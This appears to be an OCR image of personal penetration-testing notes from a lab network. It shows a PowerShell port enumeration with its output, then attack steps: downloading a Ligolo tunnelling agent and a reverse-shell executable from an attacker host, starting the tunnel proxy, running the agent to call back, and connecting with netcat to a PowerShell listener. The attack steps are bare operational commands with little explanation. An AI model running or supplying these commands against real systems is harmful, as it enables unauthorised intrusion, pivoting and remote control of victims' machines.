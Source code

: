 ```c
        Port = $_.LocalPort
        Address = $_.LocalAddress
        Process = $proc.ProcessName
        PID = $_.OwningProcess
    }
}

    Port Address         Process     PID
    ---- -------         -------     ---
    49680 ::              svchost    2852
    49675 ::              tssdis     4240
    49674 ::              services    684
    49673 ::              svchost    3940
    49672 ::              svchost    2232
    49670 ::              spoolsv    2452
    49669 ::              lsass       700
    49668 ::              svchost    1712
    49667 ::              svchost     448
    49666 ::              svchost    1232
    49665 ::              wininit     560
    49664 ::              lsass       700
    47001 ::              System        4
    10000 ::              svchost     448
    5985 ::              System        4
    5504 ::              svchost    4320
    3387 ::              System        4
    445 ::              System        4
    443 ::              System        4
    135 ::              svchost     884
    80 ::              System        4
    53399 10.10.164.254   alg        4400
    49680 0.0.0.0         svchost    2852
    49675 0.0.0.0         tssdis     4240
    49674 0.0.0.0         services    684
    49673 0.0.0.0         svchost    3940
    49672 0.0.0.0         svchost    2232
    49670 0.0.0.0         spoolsv    2452
    49669 0.0.0.0         lsass       700
    49668 0.0.0.0         svchost    1712
    49667 0.0.0.0         svchost     448
    49666 0.0.0.0         svchost    1232
    49665 0.0.0.0         wininit     560
    49664 0.0.0.0         lsass       700
    40000 10.10.164.254   powershell 2016
    10000 0.0.0.0         svchost     448
    5504 0.0.0.0         svchost    4320
    139 192.168.204.221 System        4
    139 10.10.164.254   System        4
    135 0.0.0.0         svchost     884

// 40000 powershell??

//drop ligolo
//drop reverse shell
Invoke-WebRequest http://192.168.45.186/ligolo/agent.exe -OutFile agent.exe -UseBasicParsing
Invoke-WebRequest http://192.168.45.186/reverse_443.exe -OutFile reverse_443.exe -UseBasicParsing
//start ligolo
sudo ./proxy -selfcert -laddr 0.0.0.0:4445
//drop reverse shell
./agent.exe -connect 192.168.45.186:4445 -ignore-cert

nc -nv 10.10.164.254 40000

```